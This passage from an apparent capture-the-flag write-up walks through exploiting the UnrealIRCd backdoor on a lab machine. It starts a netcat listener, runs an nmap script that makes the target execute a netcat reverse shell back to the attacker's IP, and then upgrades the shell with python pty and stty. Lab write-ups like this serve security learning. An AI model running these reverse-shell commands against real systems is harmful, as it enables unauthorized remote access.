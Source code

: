 Port 8067 is vulnerable!

## Gaining an Initial Foothold <a id="e9bb"></a>

The next obvious step would be to get a reverse shell on the machine by exploiting the UnrealIRCd backdoor vulnerability. After attempting to do that, I spent an hour trying to figure out why neither my netcat reverse or bind shells are not working. It turns out that if you add the flag “-n” which stands for “do not do any DNS or service lookups on any specified address”, the shell doesn’t work. I’m not sure why. I’ll update this blog when I figure it out.

For now, set up a listener on the attack machine.

```text
nc -nlvp 4444
```

Send a reverse shell to our listener from the target machine.

```text
nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444"  10.10.10.117
```

We have a shell!

![](../images/max/711/1*LxPuOuGpyvqKF3q_t4_QBQ.png)

Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Let’s see if we have enough privileges to get the user.txt flag.

![](../images/max/655/1*IrmCVsIYxEDxeWouAxJDrw.png)
